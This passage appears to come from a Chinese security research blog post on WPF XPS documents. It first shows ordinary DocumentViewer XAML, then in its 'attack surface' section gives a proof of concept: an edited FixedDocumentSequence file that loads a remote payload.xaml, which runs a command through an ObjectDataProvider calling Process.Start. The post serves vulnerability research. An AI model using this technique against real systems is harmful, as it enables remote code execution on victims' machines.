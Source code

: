 0X04 XPS用法
==========

WPF提供DocumentViewer容器加载FixedDocument，如下XAML 在固定页码标签放置两个TextBlock文本块填入字符串，Image标签引入图片所在的物理路径，渲染预览如下图

```php
<DocumentViewer HorizontalAlignment="Left" Margin="108,21,0,0" VerticalAlignment="Top">
        <FixedDocument>
            <PageContent>
                <FixedPage Width="672" Height="864">
                    <StackPanel Margin="48">
                        <TextBlock  FontSize="18" Width="576" TextWrapping="Wrap">
                            公众号：dotNet安全矩阵
                        </TextBlock>
                        <TextBlock  FontSize="14" Width="576" TextWrapping="Wrap" Margin="0,25,0,0">
                            网址：https://www.cnblogs.com/Ivan1ee/
                        </TextBlock>
                        <Image Margin="0,25,0,0" Source="d:\\zsxq.jpg" Width="300" Height="300"/>
                    </StackPanel>
                </FixedPage>
            </PageContent>
        </FixedDocument>
    </DocumentViewer>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-38b1ac7b4d4214e720b51dc47b9d6ad9d7c3032f.png)

除了界面UI创建XPS加载显示外，也支持以编程的方式创建一个XPS文件，将上述提到的XAML文件中FixedDocument标记所有内容保存到 testFixed.xaml，程序通过XamlReader.Load方法解析XAML生成testFixedPage.xps

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-63a40eec800db22af85388ad3625654bdcb73aff.png)

第2小节提到XPS文件本身就是一个zip压缩包，将生成的testFixedPage.xps文件重命名为testFixedPage.zip，可见目录和文件结构如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9253321262fc7719099089295c2ae7ddc33564a4.png)

0X05 攻击面
========

5.1 FixedDocumentSequence远程加载恶意载荷
---------------------------------

编辑根目录下的 FixedDocumentSequence.fdseq 文件，DocumentReference标记的Source属性指向远程xaml文件，笔者在本地用python启动了一个简易的web服务，在web目录下放置payload.xaml，当漏洞被触发时web服务会接收到来自外部的HTTP请求，如下图

```php
<FixedDocumentSequence xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation">
    <DocumentReference Source="http://127.0.0.1:8080/payload.xaml" />
</FixedDocumentSequence>
```

Payload.xaml

```php
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
 xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
 xmlns:System="clr-namespace:System;assembly=mscorlib"
 xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
 <ObjectDataProvider x:Key="LaunchCalc" ObjectType="{x:Type Diag:Process}" MethodName="Start">
     <ObjectDataProvider.MethodParameters>
         <System:String>cmd</System:String>
         <System:String>/c winver</System:String>
     </ObjectDataProvider.MethodParameters>
 </ObjectDataProvider>
</ResourceDictionary>
```

